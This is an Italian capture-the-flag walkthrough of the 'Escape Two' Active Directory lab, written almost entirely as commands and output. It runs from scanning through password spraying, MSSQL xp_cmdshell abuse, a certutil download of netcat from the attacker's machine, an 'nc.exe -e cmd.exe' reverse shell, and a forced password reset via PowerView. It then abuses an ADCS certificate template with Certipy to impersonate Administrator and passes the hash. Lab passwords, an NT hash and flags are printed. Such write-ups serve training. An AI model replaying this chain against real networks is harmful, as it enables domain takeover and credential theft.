




# Escape Two



Machine Information

```text 

As is common in real life Windows pentests, you will start this box with credentials for the following account: rose / KxEPkKe6R8su

```

## Enumerazione Iniziale

Target:10.x.x.x

```bash
$ TARGET=10.x.x.x

$ nmap -sV -sC $TARGET 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 12:50 EDT                                                                                                                                                                            
Nmap scan report for10.x.x.x                                                                                                                                                                                                        
Host is up (0.054s latency).                                                                                                                                                                                                               
Not shown: 987 filtered tcp ports (no-response)                                                                                                                                                                                            
PORT     STATE SERVICE       VERSION                                                                                                                                                                                                       
53/tcp   open  domain        Simple DNS Plus                                                                                                                                                                                               
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-01 16:50:40Z)                                                                                                                                                
135/tcp  open  msrpc         Microsoft Windows RPC                                                                                                                                                                                         
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                                                                                                 
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)                                                                                                                 
| ssl-cert: Subject:                                                                                                                                                                                                                       
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-09-01T16:52:01+00:00; 0s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-09-01T16:52:01+00:00; 0s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|  10.x.x.x:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-09-01T16:28:55
|_Not valid after:  2055-09-01T16:28:55
| ms-sql-ntlm-info: 
|  10.x.x.x:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-09-01T16:52:01+00:00; 0s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-09-01T16:52:01+00:00; 0s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-09-01T16:52:01+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-09-01T16:51:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.61 seconds

```

La scansione **nmap** ha identificato questi servizi disponibili:

- **445** `SMB`
- **389** `LDAP`
- **88** `Kerberos`
- **1443** `MSSQL`

Questi indicano che la macchina utilizza **Active Directory**.

Si aggiorna `/etc/hosts` aggiungendo il record in cui si specificano **domain name** `sequel.htb` e **domain controller** `DC01.sequel.htb`.

```bash

$ echo "10.x.x.x DC01.sequel.htb sequel.htb SEQUEL" | sudo tee -a /etc/hosts

```

Si enumerano le **shares** utilizzando le credenziali di `rose:KxEPkKe6R8su`.

```bash

$ nxc smb DC01.sequel.htb -u rose -p 'KxEPkKe6R8su' --shares
SMB        10.x.x.x  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB        10.x.x.x  445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB        10.x.x.x  445    DC01             [*] Enumerated shares
SMB        10.x.x.x  445    DC01             Share           Permissions     Remark
SMB        10.x.x.x  445    DC01             -----           -----------     ------
SMB        10.x.x.x  445    DC01             Accounting Department READ            
SMB        10.x.x.x  445    DC01             ADMIN$                          Remote Admin
SMB        10.x.x.x  445    DC01             C$                              Default share
SMB        10.x.x.x  445    DC01             IPC$            READ            Remote IPC
SMB        10.x.x.x  445    DC01             NETLOGON        READ            Logon server share 
SMB        10.x.x.x  445    DC01             SYSVOL          READ            Logon server share 
SMB        10.x.x.x  445    DC01             Users           READ            

```

Si ha accesso in lettura alla share `Accounting Department`. Si procede con la enumerazione di questa share.

```bash

$ impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.x.x.x
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
Accounting Department
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
Users
# use Accounting Department
# ls
drw-rw-rw-          0  Sun Jun  9 07:11:31 2024 .
drw-rw-rw-          0  Sun Jun  9 07:11:31 2024 ..
-rw-rw-rw-      10217  Sun Jun  9 07:11:31 2024 accounting_2024.xlsx
-rw-rw-rw-       6780  Sun Jun  9 07:11:31 2024 accounts.xlsx
# get accounting_2024.xlsx
# get accounts.xlsx

```

Si procede con l'analisi dei due file **.xlsx**.

```bash

$ file *
accounting_2024.xlsx: Zip archive data, made by v4.5, extract using at least v2.0, last modified Jan 01 1980 00:00:00, uncompressed size 1284, method=deflate
accounts.xlsx:        Zip archive data, made by v2.0, extract using at least v2.0, last modified Jun 09 2024 10:47:44, uncompressed size 681, method=deflate

$ xxd accounting_2024.xlsx | more -n2 
00000000: 5048 0403 1400 0600 0800 0000 2100 4137  PH..........!.A7
00000010: 82cf 6e01 0000 0405 0000 1300 0802 5b43  ..n...........[C

$ xxd accounts.xlsx | more -n2 
00000000: 5048 0403 1400 0808 0800 f655 c958 0000  PH.........U.X..
00000010: 0000 0000 0000 0000 0000 1a00 0000 786c  ..............xl

```

Ma i **magic bytes** di un file **.xls**: `50 4B 03 04`.

Si modificano i magic bytes dei due files.

```bash

$ hexeditor accounts.xlsx 
                                                                                                                                                                                                                                           
$ hexeditor accounting_2024.xlsx        
                                                                                                                                                                                                                                           
$ file *
accounting_2024.xlsx: Microsoft Excel 2007+
accounts.xlsx:        Microsoft Excel 2007+

```

Con un XLS viewer si accede al contenuto dei due files.

`accounting_2024.xls`


`accounts.xls`



## Password Spray

Si collezionano **username** e **password** e si utilizza **SMB** per verificarne la validita'.

```bash

$ nxc smb DC01.sequel.htb -u user.txt -p pass.txt                          
SMB        10.x.x.x  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB        10.x.x.x  445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG

```

Tra le varie credenziali raccolte, vi sono anche quelle dell'utente **sa**. 

> In MSSQL, **sa** e' il "System Administrator" ed e' un utente con privilegi elevati.

Si tenta l'accesso al servizio MSSQL con le credenziali di **sa**, nello specifico una **local authentication**.

```bash

$ nxc mssql DC01.sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth
MSSQL      10.x.x.x  1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL      10.x.x.x  1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)

```

Funziona! 

Si accede tramite **SMB**.

```bash

$ impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.x.x.x
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands

```

## Reverse Shell

Si abilita `xp_cmdshell` con l'obiettivo di creare una **reverse shell**.

```

SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL

```

Mentre, nella macchina Kali si avviano sia un server HTTP in ascolto alla porta 9001 che un listener alla porta 9001 con **NetCat**.

```bash

$ python3 -m http.server 9001

```

```bash

$ nc -lvnp 9002

```

Nella macchina vittima viene scaricato dal nostro server remoto il programma *Netcat* per poi avviare una *reverse shell*.

Si utilizza l'utilita' **certutil**.

```

SQL (sa  dbo@master)> EXEC xp_cmdshell 'certutil -urlcache -f http://10.x.x.x:9001/netcat-1.11/nc.exe C:\Users\sql_svc\Desktop\nc.exe'
output                                                
---------------------------------------------------   
****  Online  ****                                    

CertUtil: -URLCache command completed successfully.   

SQL (sa  dbo@master)> EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc.exe -e cmd.exe 10.x.x.x 9002'

```

## Lateral Movement

Si enumerano gli utenti nella rete.

```powershell

C:\SQL2019\ExpressAdv_ENU>net user
net user

User accounts for \\DC01

-------------------------------------------------------------------------------
Administrator            ca_svc                   Guest                    
krbtgt                   michael                  oscar                    
rose                     ryan                     sql_svc                  
The command completed successfully.

```

Si ispeziona il file system della macchina vittima.

```powershell

C:\>dir                                                                                                                                                                                                                                                     
dir                                                                                                                                                                                                                                                         
 Volume in drive C has no label.                                                                                                                                                                                                                            
 Volume Serial Number is 3705-289D                                                                                                                                                                                                                          
                                                                                                                                                                                                                                                            
 Directory of C:\                                                                                                                                                                                                                                           
                                                                                                                                                                                                                                                            
11/05/2022  12:03 PM    <DIR>          PerfLogs                                                                                                                                                                                                             
01/04/2025  08:11 AM    <DIR>          Program Files                                                                                                                                                                                                        
06/09/2024  08:37 AM    <DIR>          Program Files (x86)                                                                                                                                                                                                  
06/08/2024  03:07 PM    <DIR>          SQL2019                                                                                                                                                                                                              
06/09/2024  06:42 AM    <DIR>          Users
01/04/2025  09:10 AM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)   3,700,707,328 bytes free

C:\SQL2019\ExpressAdv_ENU>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3705-289D

 Directory of C:\SQL2019\ExpressAdv_ENU

01/03/2025  08:29 AM    <DIR>          .
01/03/2025  08:29 AM    <DIR>          ..
06/08/2024  03:07 PM    <DIR>          1033_ENU_LP
09/24/2019  10:03 PM                45 AUTORUN.INF
09/24/2019  10:03 PM               788 MEDIAINFO.XML
06/08/2024  03:07 PM                16 PackageId.dat
06/08/2024  03:07 PM    <DIR>          redist
06/08/2024  03:07 PM    <DIR>          resources
09/24/2019  10:03 PM           142,944 SETUP.EXE
09/24/2019  10:03 PM               486 SETUP.EXE.CONFIG
06/08/2024  03:07 PM               717 sql-Configuration.INI
09/24/2019  10:03 PM           249,448 SQLSETUPBOOTSTRAPPER.DLL
06/08/2024  03:07 PM    <DIR>          x64
               7 File(s)        394,444 bytes
               6 Dir(s)   3,700,707,328 bytes free

```

Si analizza il file di configurazione `sql-Configuration.INI`.

```powershell

C:\SQL2019\ExpressAdv_ENU>type sql-Configuration.INI
type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True

```

Si procede con un **Password Spray Attack** utilizzando gli utenti ricavati con `net user` e la password `WqSZAF6CysDQbGb3`. 

```bash

$ nxc smb DC01.sequel.htb -u user2.txt -p 'WqSZAF6CysDQbGb3'                                                                      
SMB        10.x.x.x  445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3

```

Con le credenziali valide `ryan:WqSZAF6CysDQbGb3`. Si verifica se con le credenziali ottenute si puo' accedere al servizio **WinRM** (la porta 5985 e' aperta, guarda la scansione nmap).

```bash

$ nxc winrm DC01.sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' 
WINRM      10.x.x.x  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
WINRM      10.x.x.x  5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)

```

## User.txt

Funziona! Si accede con **Evil-WinRM**.

```bash

$ evil-winrm -i10.x.x.x -u ryan -p 'WqSZAF6CysDQbGb3'

```

```powershell

*Evil-WinRM* PS C:\Users\ryan\Desktop> ls


    Directory: C:\Users\ryan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         9/1/2025   9:28 AM             34 user.txt


*Evil-WinRM* PS C:\Users\ryan\Desktop> cat user.txt
e4e0e5b994f78430ff0a42600def7e2c

```

Si utlizzano le credenziali di `ryan` per l'**information gathering** su **Active Directory domain**.

```bash

$ rusthound-ce -d sequel.htb -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -z

```

Con **BloodHound** si individua il seguente path di attacco.



Il permesso **WriteOwner** ci permette di attuare un **Force Change Password Attack** contro `ca_svc`.

```bash

$ curl https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1 > PowerView.ps1

```

```powershell

*Evil-WinRM* PS C:\Users\ryan\Documents> upload .\PowerView.ps1

*Evil-WinRM* PS C:\Users\ryan\Documents> Import-Module .\PowerView.ps1

*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"

*Evil-WinRM* PS C:\Users\ryan\Documents> Add-DomainObjectAcl -TargetIdentity "ca_svc" -Rights All -PrincipalIdentity "ryan"

*Evil-WinRM* PS C:\Users\ryan\Documents> $pass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainUserPassword -Identity "ca_svc" -AccountPassword $pass

```

Si tenta l'accesso con il protocollo **SMB**.

```bash

$ nxc smb sequel.htb -u ca_svc -p 'Password123!' 
SMB        10.x.x.x  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB        10.x.x.x  445    DC01             [+] sequel.htb\ca_svc:Password123! 

```

Si continua l'esplorazione con **BloodHound** a partire dal nuovo nodo **Owned**.



L'utente `ca_svc` e' menbro di `Cert Publshers Group` la cui descrizione indica che i membri di questo gruppo hanno il permesso di pubblicare certificati. 

Questo fa pensare che siamo in presenza di **Active Directory Certificate Services**.

## ESC1

Si utilizza **Certipy** per la enumerazione di ADCS con il profilo `ca_svc`.

```bash

$ certipy-ad find -u 'ca_svc@sequel.htb' -p 'Password123!' -dc-ip10.x.x.x -vulnerable -stdout

Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
                                          SubjectRequireCommonName
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-09-02T10:51:28+00:00
    Template Last Modified              : 2025-09-02T10:51:28+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Cert Publishers
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.

```

> Il template `DunderMifflinAuthentication` e' vulnerabile perche' il gruppo `Cert Publishers` possiede permessi pericolosi.

Si utilizza **certipy** per ottenere una copia di backup del certificato `DunderMifflinAuthentication` e per aggiornarlo.

```bash

$ certipy-ad template -template 'DunderMifflinAuthentication' -u 'ca_svc@sequel.htb' -p 'Password123!' -dc-ip10.x.x.x -write-default-configuration                                                                                                 
Certipy v5.0.2 - by Oliver Lyak (ly4k)                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                            
[*] Saving current configuration to 'DunderMifflinAuthentication.json'                                                                                                                                                                                      
[*] Wrote current configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'                                                                                                                                                     
[*] Updating certificate template 'DunderMifflinAuthentication'                                                                                                                                                                                             
[*] Replacing:                                                                                                                                                                                                                                              
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x0
5\x0b\x00\x00\x00'                                                                                                                                                                                                                                          
[*]     flags: 66104                                                                                                                                                                                                                                        
[*]     pKIDefaultKeySpec: 2                                                                                                                                                                                                                                
[*]     pKIKeyUsage: b'\x86\x00'                                                                                                                                                                                                                            
[*]     pKIMaxIssuingDepth: -1                                                                                                                                                                                                                              
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']                                                                                                                                                                                                   
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'                                                                                                                                                                                                     
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']                                                                                                                                                                                                          
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']                                                                                                                                
[*]     msPKI-Enrollment-Flag: 0                                                                                                                                                                                                                            
[*]     msPKI-Private-Key-Flag: 16                                                                                                                                                                                                                          
[*]     msPKI-Certificate-Name-Flag: 1                                                                                                                                                                                                                      
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']                                                                                                                                                                                         
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y                                                                                                                                                                     
[*] Successfully updated 'DunderMifflinAuthentication

```

Si richiede il certificato di `Administrator`.

```bash

$ certipy-ad req -username 'ca_svc@sequel.htb' -p 'Password123!' -ca sequel-DC01-CA -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb                            
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc01.sequel.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: SEQUEL.HTB.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 10
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'

```

Si effettua l'autenticazione tramite **Pass-The-Certificate** come `Administrator`.

```bash

$ certipy-ad auth -pfx administrator.pfx -dc-ip10.x.x.x
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sequel.htb'
[*] Using principal: 'administrator@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff

```

Si effettua un'autenticazione **Pass-The-Hash** come `Administrator:7a8d4e04986afa8ed4060f75e5a0b3ff`.

```bash

$ evil-winrm -i10.x.x.x -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff

```

## Root.txt

```powershell

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         9/1/2025   9:28 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
723d15fa08ce171fde0fd6a34330d8af

```

---

